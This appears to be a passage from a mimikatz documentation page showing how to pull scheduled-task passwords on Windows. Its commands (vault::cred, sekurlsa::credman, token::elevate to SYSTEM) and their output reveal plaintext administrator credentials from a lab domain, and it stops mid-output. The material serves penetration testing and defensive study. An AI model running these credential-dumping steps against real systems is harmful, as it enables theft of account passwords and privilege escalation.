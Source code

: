There are somes ways to get scheduled tasks passwords

## The bonus part
> yes, in first

Just after task creation, Windows will keep **a copy of the task credential in the owner credentials vault**
```
mimikatz # vault::cred
TargetName : LAB\admin / <NULL>
UserName   : LAB\admin
Comment    : <NULL>
Type       : 1 - generic
Persist    : 3 - enterprise
Flags      : 00000000
Credential : waza1234/a
Attributes : 0
```
Don't ask me why, I don't know :)  
But if you know, have an idea, please, poke me! (maybe to avoid asking credentials again when the owner makes modifications?)  
And of course, as it just has been used to create the task, `sekurlsa::credman` (or `::logonpasswords`) exposes it:
```
Authentication Id : 0 ; 183160 (00000000:0002cb78)
Session           : Interactive from 1
User Name         : Administrateur
Domain            : LAB
Logon Server      : DC-0
Logon Time        : 03/01/2017 22:27:52
SID               : S-1-5-21-412031729-2859336904-2073880905-500
        credman :
         [00000000]
         * Username : LAB\admin
         * Domain   : LAB\admin
         * Password : waza1234/a
```
### The bonus part of the bonus part
_Credentials are not deleted, even after deleting the scheduled task_, again, if you know why: please poke me!

## The credentials way
**just elevate to `SYSTEM` and ask for it** :)
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : AUTORITE NT\Système

516     29627           AUTORITE NT\Système     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : 460706       LAB\Administrateur      S-1-5-21-412031729-2859336904-2073880905-500    (17g,24p)
Primary
 * Thread Token  : 529506       AUTORITE NT\Système     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # vault::cred
TargetName : Domain:batch=TaskScheduler:Task:{813565C4-C976-4E78-A1CA-8BDAE749E965} / <NULL>
UserName   : LAB\admin
```